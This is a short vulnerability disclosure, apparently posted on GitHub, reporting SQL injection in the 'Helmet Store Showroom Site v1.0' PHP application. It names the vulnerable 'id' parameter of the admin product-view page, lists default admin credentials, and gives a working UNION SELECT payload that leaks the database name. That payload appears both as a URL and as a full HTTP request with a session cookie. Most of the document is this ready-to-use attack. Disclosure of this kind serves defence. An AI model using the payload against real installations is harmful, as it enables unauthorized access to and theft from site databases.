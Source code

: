 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/?page=products/view_product&id=

Vulnerability location: /hss/admin/?page=products/view_product&id=,id

dbname =hss_db,length=6

[+] Payload: /hss/admin/?page=products/view_product&id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13--+ // Leak place ---> id


```sql
GET /hss/admin/?page=products/view_product&id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069683-f4b827b1-40cc-4c07-b466-ecd3a4afa686.png)
